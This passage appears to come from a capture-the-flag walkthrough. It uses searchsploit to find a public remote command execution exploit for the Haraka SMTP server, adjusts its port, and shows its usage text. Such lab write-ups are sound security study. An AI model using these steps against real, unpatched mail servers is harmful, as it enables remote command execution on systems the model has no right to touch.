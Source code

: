 
Looks like it is an SMTP server. we use searchsploit with the SMTP software to see if there are any exploits:
```
root@kali: searchsploit Haraka                                                                   
------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                   |  Path
                                                                                                 | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------- ----------------------------------------
Haraka < 2.8.9 - Remote Command 																 | exploits/linux/remote/41162.py
------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```

Lucky for us there is one exploit and our version is supported!

Copy the exploit to our current working directory with `searchsploit -m exploits/linux/remote/41162.py`

Looking through the code, all we need to change is the SMTP port on line 123:
```
    s = smtplib.SMTP(mailserver,1025)
```

running the exploit and looking at the help text:
```
root@kali: python 41162.py -h                                                                 
##     ##    ###    ########     ###    ##    ## #### ########  #### 
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##  
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##  
######### ##     ## ########  ##     ## #####     ##  ########   ##  
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##  
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##  
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## #### 
                                                 
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

usage: 41162.py [-h] -c CMD -t TO -m MAILSERVER [-f FROM]

Harakiri

optional arguments:
  -h, --help            show this help message and exit
  -c CMD, --cmd CMD     command to run
  -t TO, --to TO        victim email, mx record must point to vulnerable
                        server
  -m MAILSERVER, --mailserver MAILSERVER
                        mailserver to talk to, you can consider putting the
                        vuln server here if the mx records aren't correct
  -f FROM, --from FROM  optional: From email address
```
